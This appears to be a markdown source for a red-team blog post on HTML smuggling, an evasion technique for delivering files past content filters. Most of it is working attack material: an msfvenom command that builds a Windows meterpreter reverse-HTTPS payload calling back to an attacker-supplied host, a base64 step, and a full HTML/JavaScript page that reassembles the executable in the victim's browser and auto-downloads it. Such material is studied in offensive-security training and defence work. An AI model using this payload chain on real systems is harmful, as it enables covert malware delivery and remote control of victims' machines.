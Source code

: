 ```yaml
---
description: >-
  HTML Smuggling
title: HTML Smuggling              # Add title here
date: 2025-05-19 08:00:00 -0600                           # Change the date to match completion date
categories: [22 Evasion Techniques, HTML Smuggling]          # Change Templates to Writeup
tags: [evasion, html smuggling]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png          # Add infocard image here for post preview image
---
```


Using a combination of HTML5 and JavaScript to sneak malicious files past content filters is not a new offensive technique. This mechanism has been incorporated into popular offensive frameworks such as Demiguise and SharpShooter for example.

HTML smuggling is a file delivery technique that leverages HTML5 and JavaScript to build a file directly in the browser — rather than downloading it from a remote server — and then triggers a download, often without triggering network-based antivirus or proxy protections.

Generate a payload with msfvenom:
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<your_ip> LPORT=443 -f exe -o payload.exe
```

Convert to Base64:
```bash
base64 payload.exe | tr -d '\n'
```

Then stick your payload to this Javascript/HTML page:
```html
<html>
  <body>
    <script>
      function base64ToArrayBuffer(base64) {
        var binary_string = window.atob(base64);
        var len = binary_string.length;
        var bytes = new Uint8Array(len);
        for (var i = 0; i < len; i++) {
          bytes[i] = binary_string.charCodeAt(i);
        }
        return bytes.buffer;
      }

      // === Base64 payload here (one-line string) ===
      var file = '<BASE64_PAYLOAD>'; 

      var data = base64ToArrayBuffer(file);
      var blob = new Blob([data], { type: 'application/octet-stream' });
      var fileName = 'msfstaged.exe';

      // === Cross-browser download logic ===
      if (window.navigator && window.navigator.msSaveOrOpenBlob) {
        // For Internet Explorer and older Edge
        window.navigator.msSaveOrOpenBlob(blob, fileName);
      } else {
        // For modern browsers (Chrome, Firefox, new Edge)
        var a = document.createElement('a');
        var url = window.URL.createObjectURL(blob);
        a.style = 'display: none';
        a.href = url;
        a.download = fileName;
        document.body.appendChild(a);
        a.click();
        window.URL.revokeObjectURL(url);
      }
    </script>
  </body>
</html>

```
